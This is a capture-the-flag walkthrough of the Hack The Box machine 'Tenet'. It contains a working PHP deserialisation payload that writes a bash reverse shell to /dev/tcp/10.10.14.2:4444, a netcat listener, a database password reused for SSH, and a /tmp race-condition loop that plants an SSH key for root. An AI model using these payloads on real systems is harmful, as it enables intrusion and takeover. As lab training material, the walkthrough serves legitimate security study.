


# Tenet

Tenet is a medium Linux HTB machine made by [egotisticalSW](https://app.hackthebox.eu/users/94858)

## Recon

### nmap

nmap found two open TCP ports `22 (SSH)` and `80 (HTTP)`

```nmap
# Nmap 7.91 scan initiated Tue Feb  9 06:19:51 2021 as: nmap -sC -sV -p- --min-rate=5000  10.10.10.223
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-9 06:19 EDT
Nmap scan report for 10.10.10.223
Host is up (0.018s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.34 seconds
```

### Port 80

### gobuster

Visiting the IP we see the default Apache page



This isn't much use from this so we can run a gobuster to see if there are any useful directories, and it turns out there is a WordPress site at `/wordpress/`. On visiting this we are greeted with a page with broken links, all taking us to `tenet.htb`. Therefore, we can add tenet.htb to our `/etc/hosts` file by adding the following line:

```text
10.10.10.223 tenet.htb
```

#### wpscan

Visiting `http://tenet.htb/` in our web browser we are greeted with what looks like a blog site. From the gobuster scan, we know that this site is using WordPress 5.6. Additionally, scrolling down we can see the phrase `Proudly powered by WordPress`. On seeing this we can run `wpscan` in the background but noting of notice was found.

#### Clicking around

On viewing the individual blog posts, the migration one caught my eye.

> We’re moving our data over from a flat file structure to something a bit more substantial. Please bear with us whilst we get one of our devs on the migration, which shouldn’t take too long.
>
> Thank you for your patience

And then the following comment
> did you remove the sator php file and the backup?? the migration program is incomplete! why would you do this?!

This post also provides us with two potential usernames: `neil` and `protagonist`.

#### sator.php

Neil's comment mentions a file `sator php (sator.php?)` that appears to have been removed from the website prematurely. This appears to be our next step to try and find this file as removed files usually contain useful information. The file doesn't exist on the `tenet.htb` vhost however accessing it through the IP works. We see the following on visiting `http://10.10.10.223/sator.php`:



This isnt very useful however, as we have no idea what it does.

#### sator.php.bak

Additionally, Neil also mentions a backup file. This may be more useful to us as it might contain the code that `sator.php` is running. Doing a quick [search](https://fileinfo.com/filetypes/backup) results in a few common extensions for backup files `.bak .tmp and .gho`. Navigating to `http://10.10.10.223/sator.php.bak` allows us to download the following code:

```php
<?php

class DatabaseExport
{
        public $user_file = 'users.txt';
        public $data = '';

        public function update_db()
        {
                echo '[+] Grabbing users from text file <br>';
                $this-> data = 'Success';
        }


        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
                echo '[] Database updated <br>';
        //      echo 'Gotta get this working properly...';
        }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

This is some funky code, the bits of interest to us are the `__destruct()` function and `unserialize($input)`.

## Shell as www-data

### Deserialisation

Serialisation is the process of converting structured data (such as an object) to a format that allows sharing or storage of the data in a form that allows recovery of its original structure. This could be as a string (PHP, JavaScript) or as a binary (Python). Serialisation is the reverse of this. This is very handy, however it can be repurposed for malicious effect when it is used on user provided data. For further information, IppSec has done a great [pair](https://www.youtube.com/watch?v=HaW15aMzBUM) of [videos](https://www.youtube.com/watch?v=fHZKSCMWqF4) about this.

In the code above, `unserialize` is being called on `$input` which is retrieved from the `arepo` parameter in the URL (?arepo=\$input). This means that a user can provide their own serialized form of the `DatabaseExport` object and control the values of `$user_file` and `$data`.

However, at first glance this does not seem useful as `update_db()` is called on `$app` which creates as a new object, not the one we provide. This is where the `__destruct()` comes in handy. This is an example of a [magic method](https://www.php.net/manual/en/language.oop5.decon.php#object.destruct). What this essentially means for us is that whenever a `DatabaseExport` object is no longer useful it is "deconstructed" and the code under `__destruct()` is ran. This means, that we can still make use of our ability to pass serialized data. With this information we can now craft our own serialized version of `DatabaseExport` which write a PHP reverse shell to a file.

### Create Payload

```php
<?php

class DatabaseExport
{
        public $user_file = 'shell.php';
        public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.14.2/4444 0>&1\'"); ?>';
}


echo urlencode(serialize(new DatabaseExport));
?>
```

Running this code results in the following serialized payload:

```text
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A72%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.14.2%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

Which is URL encoded form of:

```php
O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"shell.php";s:4:"data";s:72:"<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.2/4444 0>&1'"); ?>";}
```

The reason for `urlencode` is so that when we submit the payload, there are no special characters that could interfere and cause it to fail to execute.

### Execute payload

Now to execute our payload all we have to do is navigate to `http://10.10.10.223/sator.php?arepo=[Payload]` and we see the phrase "[] Database updated" is shown twice. This is shows us that our payload was successfully as `__destruct()` was called twice, once for our object and once for the original object. What this means is now we can setup a netcat listener using `nc -lvnp 4444` and navigate to `http://10.10.10.223/shell.php`

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.223] 24890
whoami
www-data
```

Now we can upgrade our shell with `python3 -c 'import pty;pty.spawn("/bin/bash")'`, then Ctrl-z, `stty raw -echo; fg`, then `reset` and setting the terminal to `xterm`:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@tenet:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 4444
┌──(kali㉿kali)-[~/HTB/tenet]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444
                               reset
reset: unknown terminal type unknown
Terminal type? xterm
www-data@tenet:/var/www/html$
```

## Shell as Neil

### Enumeration

On this box there is only one user `neil`

```bash
www-data@tenet:/var/www/html$ ls /home/
neil
```

Remember that this is a WordPress site, so we can poke around the config files to find any credentials. We find the following in the `wp-config.php` file:

```php
www-data@tenet:/var/www$ cat html/wordpress/wp-config.php 
<?php
... [SNIP] ...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'WP_HOME', 'http://tenet.htb');
define( 'WP_SITEURL', 'http://tenet.htb');
... [SNIP] ...
```

### Password reuse

Now we have a set of credentials `neil:Opera2112`. As neil is also a user we can see if he reused this password and attempt to SSH as Neil.

```bash
ssh neil@10.10.10.223
neil@10.10.10.223's password: (Opera2112, password does not show)
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)
... [SNIP] ...
neil@tenet:~$ 
```

From here we can get `user.txt`

```bash
neil@tenet:~$ cat user.txt 
********************************
```

## Shell as root

### Enumeration

First up we can check Neil's home directory but there is nothing interesting

```bash
neil@tenet:~$ ls -la
total 36
drwxr-xr-x 5 neil neil 4096 Jan  7 10:06 .
drwxr-xr-x 3 root root 4096 Dec 17  2020 ..
lrwxrwxrwx 1 neil neil    9 Dec 17  2020 .bash_history -> /dev/null
-rw-r--r-- 1 neil neil  220 Dec 16  2020 .bash_logout
-rw-r--r-- 1 neil neil 3771 Dec 16  2020 .bashrc
drwx------ 2 neil neil 4096 Dec 17  2020 .cache
drwx------ 3 neil neil 4096 Dec 17  2020 .gnupg
drwxrwxr-x 3 neil neil 4096 Dec 17  2020 .local
-rw-r--r-- 1 neil neil  807 Dec 16  2020 .profile
-r-------- 1 neil neil   33 Jun 24 09:43 user.txt
```

Next up we can try `sudo -l`. This will show which commands, if any, we are allowed to run with `sudo`. We only do this because we have a correct password for our user.

```bash
neil@tenet:~$ sudo -l
Matching Defaults entries for neil on tenet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```

This is interesting, `enableSSH.sh` doesn't seem like a usual script. Let's take a closer look.

### Script Analysis

```bash
eil@tenet:/usr/local/bin$ cat enableSSH.sh 
#!/bin/bash

checkAdded() {
        sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
        if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then

                /bin/echo "Successfully added $sshName to authorized_keys file!"
        else
                /bin/echo "Error in adding $sshName to authorized_keys file!"
        fi
}

checkFile() {
        if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
                /bin/echo "Error in creating key file!"
                if [[ -f $1 ]]; then /bin/rm $1; fi
                exit 1
        fi
}

addKey() {
        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
        (umask 110; touch $tmpName)
        /bin/echo $key >>$tmpName
        checkFile $tmpName
        /bin/cat $tmpName >>/root/.ssh/authorized_keys
        /bin/rm $tmpName
}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

The tl;dr of this script is that it echos the public key stored at `$key` to a file in `/tmp/` with the name `ssh-XXXXXXXX` where each X can be a different character. After the key is written there, the program checks that the file exists before reading it and adding the contents to the root user's `authorized_keys` file. This means that while the script is checking the file exists, we can override it with our own ssh key.

### Exploiting

We can generate our own ssh key pair by using `ssh-keygen` and following the prompts. Then we can use get our public key (the one ending in `.pub`) and using the following bash script, we can attempt to add it to any files starting with `ssh-` in the `/tmp` directory. The reason for the `while true` is because we do not know at which moment the file will be created so we have to constantly try.

```bash
while true
do  
echo "ssh-key" | tee /tmp/ssh-*
done
```

First we need to open two SSH sessions as Neil, one to run our exploit script and one to trigger `sudo /usr/local/bin/enableSSH.sh`. Then, while our infinite loop is running we can execute `enableSSH.sh`.

FInally we can attempt to ssh as root using our key with `ssh root@10.10.10.223 -i id_rsa` and we have root.
